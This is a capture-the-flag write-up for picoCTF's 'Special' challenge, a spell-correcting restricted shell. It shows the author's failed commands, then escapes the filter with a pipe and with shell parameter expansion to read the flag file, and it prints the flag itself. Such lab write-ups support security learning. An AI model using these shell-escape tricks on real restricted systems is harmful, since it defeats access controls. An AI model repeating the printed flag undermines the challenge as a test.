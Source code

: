 # Special

## General

### Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)

This one was a bit of a pain.  The block belows shows some of the attempts that I made and the results.  I eventually figured out a method to get the flag using pipes, but I wasn't sure it was the way the challenge author had intended.  All in all this took me about 20 minutes to get this answer.  Below that is what I think the author had intended.

```sh
Special$ ls
Is 
sh: 1: Is: not found
Special$ whoami
Whom 
sh: 1: Whom: not found
Special$ pwd
Pod 
sh: 1: Pod: not found
Special$ ls|ls
Lulls 
sh: 1: Lulls: not found
Special$ pwd|ls
Pedals 
sh: 1: Pedals: not found
Special$ pwd|cat *
Pwd|cat * 
sh: 1: Pwd: not found
cat: blargh: Is a directory
Special$ pwd|cat blargh/*
Pwd|cat blargh/* 
sh: 1: Pwd: not found
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}Special$
```

This is a bit more elegant:

```sh
Special$ ${parameter=cat blargh/flag.txt}
${parameter=cat blargh/flag.txt} 
picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}Special$ 
```

**picoCTF{5p311ch3ck_15_7h3_w0r57_f906e25a}**
